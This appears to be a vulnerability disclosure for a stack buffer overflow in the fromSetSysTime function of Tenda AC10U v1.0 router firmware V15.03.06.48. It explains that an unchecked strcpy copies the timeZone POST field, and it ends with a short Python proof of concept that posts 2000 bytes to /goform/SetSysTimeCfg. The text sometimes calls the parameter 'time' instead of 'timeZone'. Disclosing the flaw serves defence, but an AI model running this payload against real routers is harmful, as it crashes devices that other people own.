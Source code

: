 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware  V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware  V15.03.06.48 firmware has a stack overflow vulnerability in the `fromSetSysTime` function. The `timezone` variable receives the `timeZone` parameter from a POST request and is assigned to `timezone_buf` by `strcpy`. However, since the user can control the input of `time`, the statement `strcpy(timezone_buf, timezone);` can cause a buffer overflow. The user-provided  `time` can exceed the capacity of the `timezone_buf` array, triggering this security vulnerability.

![image-20240316224001545](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316224001545.png)

![image-20240316223928851](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316223928851.png)

![image-20240316223948112](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316223948112.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'sy',
        'timeZone':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316224156695](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316224156695.png)
